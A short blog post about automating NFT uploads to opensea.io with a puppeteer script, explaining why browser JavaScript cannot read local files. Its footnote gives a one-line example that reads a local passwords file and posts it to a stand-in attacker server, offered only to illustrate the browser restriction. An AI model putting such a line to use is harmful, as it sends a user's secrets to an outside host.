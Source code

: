 ```yaml
---
title: Automating NFT uploads to opensea.io
date: 2021-09-10
katex: false
tags: nft, crypto
---
```


# Automating NFT uploads to opensea.io

## The problem

[opensea](https://opensea.io) allows you to create collections of NFTs, but you
can only add one item to the collection at a time via their 'add item' form /
web UI. This is fine if you are only creating a few NFTs, but quickly becomes
laborious if you want to create a large collection.

This seems to be a common issue, [see here](https://reddit.com/m6v5vr) for
example.

## Solution 1

One approach is to avoid the 'add item' UI completely by making your own smart
contract, and then integrating that contract with opensea ([details
here](https://docs.opensea.io/docs/opensea-integration)). The downside with
this approach is that you have to pay gas fees to create the contract.

## Solution 2

It would be nicer (compared with [Solution 1](solution-1)) to automate the 'add
item' UI, because this is a free operation (as in beer). The flow is basically:

a) upload artwork / digital asset
b) fill in metadata
c) submit.

It is theoretically possible to perform this flow by just sending http(s)
requests (e.g. in a python script), but in practice it would be difficult
because it is first necessary to authenticate with opensea, and the also to
connect to your wallet. This sort of auth flow is more easily done in a browser,
_but_ by doing the automation in the browser, uploading the artwork becomes
harder. Without a user prompt or action, it is not possible to read local files
with JS in a browser environment[^1], so we cannot simply hack up a JS script to
run in the browser console. You can however get around this by automating user
actions (e.g. using puppeteer).

See [this script](./upload.js.txt) which I used to add several items to the [64
angel mice collection](https://opensea.io/collection/64-angel-mice) (run it with
`node upload.js`, having modified the relevant constants). The script
gives you a chance to authenticate + connect to your wallet, and then for each
item you wish to upload, it'll open a new tab, and submit an associated form. In
practice, I found that the form submissions to opensea failed occasionally, and
this required manual intervention. If you wanted to add thousands of items,
you'd probably want to improve the script to retry any failed form submissions.

[^1]: If it were possible, then I suspect something like this would be a
remarkably successful attack: `const secret = await fetch("file:///home/ben/passwords"); await fetch("https://nefarious-server.com", {method:"POST", body:secret})`.